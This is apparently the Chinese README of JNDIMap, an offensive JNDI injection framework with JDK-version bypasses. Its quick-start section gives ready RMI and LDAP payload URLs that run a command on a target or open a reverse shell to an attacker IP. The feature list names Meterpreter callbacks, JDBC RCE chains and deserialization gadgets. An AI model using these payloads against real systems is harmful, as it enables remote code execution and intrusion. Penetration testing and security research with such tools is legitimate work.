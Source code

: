 <div align="center">
    <img src="img/logo.png" width="128" />
    <h1 align="center">JNDIMap</h1>
</div>

<p align="center">
<img alt="GitHub Repo stars" src="https://img.shields.io/github/stars/X1r0z/JNDIMap">
<img alt="GitHub forks" src="https://img.shields.io/github/forks/X1r0z/JNDIMap">
<img alt="Static Badge" src="https://img.shields.io/badge/Java-8-blue">
<img alt="GitHub Downloads (all assets, all releases)" src="https://img.shields.io/github/downloads/X1r0z/JNDIMap/total">
<img alt="GitHub Release" src="https://img.shields.io/github/v/release/X1r0z/JNDIMap">
<img alt="GitHub License" src="https://img.shields.io/github/license/X1r0z/JNDIMap">

<p align="center">
JNDIMap 是一个强大的 JNDI 注入利用框架, 支持 RMI、LDAP 和 LDAPS 协议, 包含多种高版本 JDK 绕过方式
</p>
<p align="center">简体中文 | <a href="README.en.md">English</a></p>
</p>

## 🚀 快速上手

在 [Release](https://github.com/X1r0z/JNDIMap/releases) 页面下载 JNDIMap, 运行时传入 `-i` 参数指定外部 IP

```bash
java -jar JNDIMap-version.jar -i 10.0.0.1
```

在目标机器上执行命令或反弹 Shell

```bash
rmi://10.0.0.1:1099/Basic/Command/open -a Calculator
ldap://10.0.0.1:1389/Basic/ReverseShell/10.0.0.1/1337
```

## 🚩 功能特性

- DNSLog
- 命令执行
- 反弹 Shell
- Meterpreter 上线
- 加载自定义 Java 字节码
- Nashorn JS 自定义 Payload
- BeanFactory 绕过
  - Tomcat
  - Groovy
  - XStream
  - SnakeYaml
  - BeanShell
  - MVEL
  - MLet
  - NativeLibLoader
- JDBC RCE (MySQL/PostgreSQL/H2/Derby)
  - Commons DBCP
  - Tomcat DBCP
  - Tomcat JDBC
  - Alibaba Druid
  - HikariCP
- LDAP 反序列化:
  - CommonsCollections K1-K4
  - CommonsBeanutils183
  - CommonsBeanutils194
  - Jackson
  - Fastjson1
  - Fastjson2

## 📖 使用指南

> 完整文档: [USAGE.md](USAGE.md)

- [Usage](USAGE.md#usage)
- [URL 格式](USAGE.md#url-格式)
- [Basic 功能](USAGE.md#basic)
- [BeanFactory 绕过](USAGE.md#beanfactory-bypass)
  - [Tomcat ELProcessor](USAGE.md#tomcat-elprocessor)
  - [Groovy ClassLoader/Shell](USAGE.md#groovy-classloadershell)
  - [XStream](USAGE.md#xstream)
  - [SnakeYaml](USAGE.md#snakeyaml)
  - [BeanShell](USAGE.md#beanshell)
  - [MVEL](USAGE.md#mvel)
  - [MLet](USAGE.md#mlet)
  - [NativeLibLoader](USAGE.md#nativelibloader)
- [JDBC RCE](USAGE.md#jdbc-rce)
  - [MySQL](USAGE.md#mysql)
    - [MySQL JDBC 反序列化 RCE](USAGE.md#mysql-jdbc-反序列化-rce)
    - [MySQL 客户端任意文件读取](USAGE.md#mysql-客户端任意文件读取)
  - [PostgreSQL](USAGE.md#postgresql)
  - [H2 Database](USAGE.md#h2)
  - [Apache Derby](USAGE.md#derby)
    - [Derby SQL RCE](USAGE.md#derby-sql-rce)
    - [Derby 主从复制反序列化 RCE](USAGE.md#derby-主从复制反序列化-rce)
- [LDAP Deserialization](USAGE.md#ldap-deserialization)
- [Script](USAGE.md#script)
- [useReferenceOnly](USAGE.md#usereferenceonly)

## ⚙️ 编译

[Releases](https://github.com/X1r0z/JNDIMap/releases) 的版本可能存在滞后, 推荐在使用时拉取源码自行编译 (基于 JDK 8)

```bash
git clone https://github.com/X1r0z/JNDIMap && cd JNDIMap
mvn package -Dmaven.test.skip=true
```

## 📷 参考 & 致谢

[https://tttang.com/archive/1405/](https://tttang.com/archive/1405/)

[https://paper.seebug.org/1832/](https://paper.seebug.org/1832/)

[https://xz.aliyun.com/t/12846](https://xz.aliyun.com/t/12846)

[http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce](http://www.lvyyevd.cn/archives/derby-shu-ju-ku-ru-he-shi-xian-rce)

[https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson 与原生反序列化/](https://y4tacker.github.io/2023/03/20/year/2023/3/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson 与原生反序列化-二/](https://y4tacker.github.io/2023/04/26/year/2023/4/FastJson%E4%B8%8E%E5%8E%9F%E7%94%9F%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96-%E4%BA%8C/)

[https://www.yulegeyu.com/2022/11/12/Java 安全攻防之老版本 Fastjson 的一些不出网利用/](https://www.yulegeyu.com/2022/11/12/Java%E5%AE%89%E5%85%A8%E6%94%BB%E9%98%B2%E4%B9%8B%E8%80%81%E7%89%88%E6%9C%ACFastjson-%E7%9A%84%E4%B8%80%E4%BA%9B%E4%B8%8D%E5%87%BA%E7%BD%91%E5%88%A9%E7%94%A8/)

[https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/](https://gv7.me/articles/2020/deserialization-of-serialvesionuid-conflicts-using-a-custom-classloader/)

[https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html](https://www.leavesongs.com/PENETRATION/use-tls-proxy-to-exploit-ldaps.html)

[https://exp10it.io/2025/03/h2-rce-in-jre-17/](https://exp10it.io/2025/03/h2-rce-in-jre-17/)

[https://forum.butian.net/share/4414](https://forum.butian.net/share/4414)

[https://yzddmr6.com/posts/swinglazyvalue-in-webshell/](https://yzddmr6.com/posts/swinglazyvalue-in-webshell/)

## 🌟 Star History

<a href="https://www.star-history.com/#X1r0z/JNDIMap&Date">
 <picture>
   <source media="(prefers-color-scheme: dark)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date&theme=dark" />
   <source media="(prefers-color-scheme: light)" srcset="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
   <img alt="Star History Chart" src="https://api.star-history.com/svg?repos=X1r0z/JNDIMap&type=Date" />
 </picture>
</a>